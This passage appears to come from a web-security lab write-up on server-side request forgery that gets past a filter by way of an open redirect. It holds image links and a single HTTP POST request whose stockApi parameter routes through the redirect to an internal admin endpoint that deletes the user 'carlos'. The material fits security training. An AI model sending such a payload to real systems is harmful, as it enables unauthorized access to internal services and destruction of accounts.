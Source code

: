 

![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/9.png)

```
POST /product/stock HTTP/2
...

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```



![img](images/9%20-%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability/10.png)
